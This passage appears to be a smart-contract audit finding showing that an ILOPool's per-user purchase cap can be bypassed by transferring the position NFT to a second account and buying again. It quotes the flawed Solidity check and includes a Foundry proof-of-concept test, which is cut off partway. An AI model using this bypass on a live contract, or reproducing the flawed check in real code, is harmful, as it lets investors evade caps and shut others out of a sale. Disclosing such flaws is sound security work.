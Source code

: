 Each subsequent call to `buy()` is intended to increase the investor's raised amount for their position, ensuring that the user's total raised amount does not surpass the sale's `maxCapPerUser`. However, this restriction can be circumvented by transferring an existing `ILOPool NFT token` to another account and invoking `buy()` again. This action results in the protocol minting a new NFT (thus creating a new position) for the investor. Consequently, the `maxCapPerUser` check applies to the new position's raised amount, rather than the total amount contributed by the investor.

```solidity
// If the investor already has a position, increase the raise amount and liquidity
// Otherwise, mint a new NFT for the investor and assign vesting schedules
@> if (balanceOf(recipient) == 0) { // The user can easily set their balance to 0
   _mint(recipient, (tokenId = _nextId++));
   _positionVests[tokenId].schedule = _vestingConfigs[0].schedule;
} else {
   tokenId = tokenOfOwnerByIndex(recipient, 0);
}

Position storage _position = _positions[tokenId];
@> require(raiseAmount <= saleInfo.maxCapPerUser - _position.raiseAmount, "UC"); // User can open multiple positions bypassing the `maxCapPerUser` constraint
_position.raiseAmount += raiseAmount;
```

### Impact

This vulnerability allows an investor to:

1. Bypass the `maxCapPerUser` constraint by transferring their NFT to another account and purchasing additional tokens, thus minting new NFTs and opening new positions, which in turn breaks a core invariant.
2. Prevent other investors from participating in the pool by monopolizing the contributions and reaching the pool's `hardCap`.

### Proof of Concept

The described issue is illustrated in the below test, which can be added to the current test suit in `ILOPool.t.sol` file and run with `forge test --mt testBypassUserCap`. I've added some helper-getter functions to be able to properly log what is happening in the workflow. I have used the defined set up parameters provided with the protocol's test suite.

```solidity
function testBypassUserCap() external {
        address alice = makeAddr("alice");
        address aliceSecondAccount = makeAddr("aliceSecondAccount");
        address bob = makeAddr("bob");

        _prepareBuyFor(alice);
        _prepareBuyFor(bob);

        console.log("Pool hard cap: ", IILOPool(iloPool).getSaleInfo().hardCap / 1e18);
        console.log("Pool max cap per user: ", IILOPool(iloPool).getSaleInfo().maxCapPerUser / 1e18);

        uint256 maxUserAmount = IILOPool(iloPool).getSaleInfo().maxCapPerUser;
        (uint256 tokenIdAlice, uint128 liquidityAlice) = _buyFor(alice, SALE_START + 1, maxUserAmount); // User buys the max cap

        console.log("Total raised after first buy from Alice:", IILOPool(iloPool).getTotalRaised() / 1e18);
        assertEq(IILOPool(iloPool).balanceOf(alice), 1);

        vm.prank(alice);
        ERC721(iloPool).transferFrom(alice, aliceSecondAccount, tokenIdAlice);

        assertEq(IILOPool(iloPool).balanceOf(alice), 0);
        assertEq(IILOPool(iloPool).balanceOf(aliceSecondAccount), 1);
```